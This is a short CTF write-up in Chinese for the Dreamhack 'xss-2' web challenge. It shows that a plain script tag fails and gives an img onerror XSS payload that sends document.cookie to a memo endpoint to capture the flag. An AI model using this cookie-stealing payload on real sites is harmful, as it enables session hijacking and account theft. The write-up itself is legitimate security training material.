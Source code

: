 ```yaml
---
title: xss-2
published: 2025-02-20
updated: 2025-07-09
description: "Dreamhack"
image: ""
tags: ["CTF Writeup", "Dreamhack", "Web"]
category: "Dreamhack"
draft: false
---
```


# xss-2

跟 `xss-1` 的區別在於進入 `/vuln` 之後 `<script>alert(1)</script>` 沒有效果了

![vuln](/assets/dreamhack/xss-2/image.png)

試試別的 payload

```javascript
<img src="x" onerror="location.href='http://127.0.0.1:8000/memo?memo='+document.cookie;">
```

![flag](/assets/dreamhack/xss-2/image-1.png)
